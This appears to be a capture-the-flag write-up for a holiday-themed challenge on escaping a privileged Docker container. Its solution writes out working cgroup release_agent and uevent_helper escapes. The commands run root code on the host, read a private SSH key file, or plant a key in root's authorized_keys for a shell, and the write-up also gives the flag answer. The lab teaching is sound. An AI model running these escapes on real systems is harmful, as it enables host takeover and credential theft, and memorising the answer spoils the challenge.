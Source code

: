 # Prison Escape

!!! summary "Prison Escape<br>*Difficulty*: :fontawesome-solid-tree:{: style="color: red;"}:fontawesome-solid-tree:{: style="color: red;"}:fontawesome-solid-tree:{: style="color: red;"}:fontawesome-solid-tree:{: style="color: grey;"}:fontawesome-solid-tree:{: style="color: grey;"}"
    Escape from a container.  Get hints for this challenge from Bow Ninecandle in the Elfen Ring.  What hex string appears in the host file /home/jailer/.ssh/jail.key.priv?


## Elf Introduction

??? quote "Talk to Tinsel Upatree"
    Hiya hiya, I'm Tinsel Upatree!<br>
    Check me out, I'm working side-by-side with a real-life Flobbit. Epic!<br>
    Anyway, would ya' mind looking at this terminal with me?<br>
    It takes a few seconds to start up, but then you're logged into a super secure container environment!<br>
    Or maybe it isn't so secure? I've heard about container escapes, and it has me a tad worried.<br>
    Do you think you could test this one for me? I'd appreciate it!


## Hints and Resources

??? hint "Hints from Bow Ninecastle after completing the <a href="../05_Clone_with_a_Difference/">Clone with a Difference</a> objective"
    **Over-Permissioned**<br>
    When users are over-privileged, they can often act as root. When containers have too many <a href="https://learn.snyk.io/lessons/container-runs-in-privileged-mode/kubernetes/">permissions</a>, they can affect the host!<br>
    <br>
    **Mount Up and Ride**<br>
    Were you able to `mount` up? If so, users' `home/` directories can be a great place to look for secrets...

??? hint "Other Resources"
    **Jared Folkins, DevOps Faux Paws | KringleCon 2022**<br>
    <a href="https://www.youtube.com/watch?v=vIQY_FH1SVk&list=PLjLd1hNA7YVy9Xd1pRtE_TKWdzsnkHcqQ&index=11">https://www.youtube.com/watch?v=vIQY_FH1SVk&list=PLjLd1hNA7YVy9Xd1pRtE_TKWdzsnkHcqQ&index=11</a><br>
    <br>
    **Understanding Docker Container Escapes**<br>
    <a href="https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/">https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/</a>


## Solution

Open the terminal next to Tinsel Upatree.

The terminal introduction infers that we are running in a container, but we can verify this with the following command

```
cat /proc/1/cgroup
```

Next, we should see what privileges we have.

```
sudo -l
```

This command reveals that we have full sudo rights, so we will start a shell as root to use from here on

```
sudo sh
```

Next, we need to determine if we are running in a privileged container.  There are several ways to do this, including seeing if we have visibility to devices, having access to disk devices, or if we can create an IP link without throwing an error.

```
ls /dev
fdisk -l
ip link add dummy0 type dummy
```

Now that we know we are in a privileged container we can create our escape using the Notify on Release technique.  There are several ways to setup this escape, but all rely on causing the host to execute a command as root.

The first method, which is what I initially used, creates a Linux control group and a command that will execute when the last task of the group completes.  The second technique, as described in the hint from Bow Ninecastle, creates a command that runs when a new device is mounted.  Both of these will achieve the same results, which is execution of the /cmd file.

=== "cgroup method"
    ```
    mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
    echo 1 > /tmp/cgrp/x/notify_on_release
    host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
    echo "$host_path/cmd" > /tmp/cgrp/release_agent
    ```
    After this, running the following command will cause the /cmd file to run on the host
    ```
    sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs
    ```
=== "device method"
    ```
    host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
    echo $host_path/cmd > /sys/kernel/uevent_helper
    ```
    After this, running the following command will cause the /cmd file to run on the host
    ```
    echo change > /sys/class/mem/null/uevent
    ```

Now we need to compose our /cmd file.  Again, there are multiple ways to achieve this objective.

The simple way, since we know the name of the file that we want to access, is to just copy the contents of the target file into an output file that we can access.  A more complex method, but one that gives full shell access, is to use the command to add an ssh public key into the root user's list of authorized keys, then simply ssh to the host machine.  Conveniently for us, the host machine contains a script at the root called keygen.sh that will generate a public / private key pair.

=== "Retrieve target directly"
    ```
    echo "#!/bin/sh" > /cmd
    echo "cat /home/jailer/.ssh/jail.key.priv > $host_path/output" >> /cmd
    chmod +x /cmd
    ```
    Execute the escape with whichever command will do so and then inspect the contents of /output
    ```
    cat /output
    ```

=== "Pop shell"
    First, create the public / private key
    ```
    cd /root
    mkdir .ssh
    cd .ssh
    /keygen.sh
    ```
    After generating the key, copy the private key into the buffer, use an editor to create a file named id_rsa, and set the permissions on the file
    ```
    nano id_rsa
        <paste the text of the private key and save>
    chmod 600 id_rsa
    ```
    Now create the /cmd file
    ```
    echo "#!/bin/sh" > /cmd
	echo "echo '<paste public key here>' >> /root/.ssh/authorized_keys" >> /cmd
	echo "cat /root/.ssh/authorized_keys > $host_path/output" >> /cmd
    ```
    Execute the script with whichever command will do so and then ssh to the host to get full shell
    ```
    ssh 172.17.0.1
    cat /home/jailer/.ssh/jail.key.priv
    ```

??? answer "Answer"
    `082bb339ec19de4935867`




## Completion

??? quote "Talk to Tinsel Upatree"
    Great! Thanks so much for your help!<br>
    Now that you've helped me with this, I have time to tell you about the deployment tech I've been working on!<br>
    Continuous Integration/Continuous Deployment pipelines allow developers to iterate and innovate quickly.<br>
    With this project, once I push a commit, a GitLab runner will automatically deploy the changes to production.<br>
    WHOOPS! I didn’t mean to commit that to http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git...<br>
    Unfortunately, if attackers can get in that pipeline, they can make an awful mess of things!
